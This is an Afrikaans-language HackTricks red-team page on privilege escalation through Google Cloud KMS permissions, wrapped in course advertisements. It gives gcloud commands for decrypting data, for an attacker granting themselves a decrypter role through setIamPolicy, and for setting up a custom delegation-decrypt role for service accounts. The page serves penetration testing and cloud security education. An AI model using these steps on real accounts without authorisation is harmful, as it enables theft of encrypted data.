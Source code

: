 # GCP - KMS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Inligting oor KMS:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

Let daarop dat in KMS die **toestemming** nie net **geërf** word van Organisasies, Gidse en Projekte nie, maar ook van **Sleutelring**.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Jy kan hierdie toestemming gebruik om **inligting te dekripteer met die sleutel** waaroor jy hierdie toestemming het.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

'n Aanvaller met hierdie toestemming kan **homself toestemmings gee** om die sleutel te gebruik om inligting te ontsleutel.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Hier is 'n konseptuele ontleding van hoe hierdie delegasie werk:

1. **Diensrekening A** het direkte toegang om te ontsleutel met 'n spesifieke sleutel in KMS.
2. **Diensrekening B** word die `useToDecryptViaDelegation` toestemming gegee. Dit stel dit in staat om KMS te vra om data te ontsleutel namens Diensrekening A.

Die gebruik van hierdie **toestemming is implisiet in die manier waarop die KMS-diens toestemmings nagaan** wanneer 'n ontsleuteling versoek word.

Wanneer jy 'n standaard ontsleuteling versoek maak met die Google Cloud KMS API (in Python of 'n ander taal), **kyk die diens of die versoekende diensrekening die nodige toestemmings het**. As die versoek gemaak word deur 'n diensrekening met die **`useToDecryptViaDelegation`** toestemming, verifieer KMS of hierdie **rekening toegelaat word om ontsleuteling aan te vra namens die entiteit wat die sleutel besit**.

#### Stel op vir Delegasie

1. **Definieer die Aangepaste Rol**: Skep 'n YAML-lêer (bv. `custom_role.yaml`) wat die aangepaste rol definieer. Hierdie lêer moet die `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` toestemming insluit. Hier is 'n voorbeeld van hoe hierdie lêer mag lyk:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Skep die Aangepaste Rol met die gcloud CLI**: Gebruik die volgende opdrag om die aangepaste rol in jou Google Cloud-projek te skep:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

Vervang `[YOUR_PROJECT_ID]` met jou Google Cloud projek ID.

3. **Gee die Aangepaste Rol aan 'n Diensrekening**: Ken jou aangepaste rol toe aan 'n diensrekening wat hierdie toestemming sal gebruik. Gebruik die volgende opdrag:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
Vervang `[YOUR_PROJECT_ID]` en `[SERVICE_ACCOUNT_EMAIL]` met jou projek ID en die e-pos van die diensrekening, onderskeidelik.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) of die [**telegram group**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
